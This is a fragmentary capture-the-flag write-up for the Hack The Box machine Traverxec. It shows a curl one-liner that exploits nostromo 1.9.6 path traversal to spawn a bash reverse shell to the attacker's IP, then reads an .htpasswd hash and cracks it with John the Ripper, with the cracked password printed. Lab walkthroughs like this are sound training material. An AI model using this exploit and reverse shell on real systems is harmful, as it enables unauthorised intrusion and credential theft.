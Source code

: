 ```
1   319.68 ms 10.10.14.1 
2   312.29 ms 10.10.10.165
```
nd one remote code execution exploit . 

```

## now i search for exploit of nostromo 1.9.6  exploit not working then i use exploit payload with curl for reverse shell command given below.

```console
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1"'
```

## and then start a netcat listner and got shell then i start enumerating and in /var/nostromo/conf found a file name .htpasswd in that file i got hash of david user.

```console
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd     
cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

## i copy the hash in a file on my local machine then i try to crack it with john the ripper.

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long" 
Use the "--format=md5crypt-long" option to force loading these as that type instead 
Using default input encoding: UTF-8 
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3]) 
Will run 8 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
Nowonly4me       (david) 
1g 0:00:00:50 DONE (2022-04-12 19:13) 0.01986g/s 210139p/s 210139c/s 210139C/s NuiMeanPoon..Nous4=5 
Use the "--show" option to display all of the cracked passwords reliably 
Session completed
```

## hash cracked successfully

## in the same directory (/var/nostromo/conf) i got another file name nhttpd.conf when i  read this file i got some directories

```console
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
cat nhttpd.conf 
# MAIN [MANDATORY] 
 
servername              traverxec.htb 
serverlisten            * 
serveradmin             david@traverxec.htb 
serverroot              /var/nostromo 
servermimes             conf/mimes 
docroot                 /var/nostromo/htdocs 
docindex                index.html 
 
# LOGS [OPTIONAL] 
 
```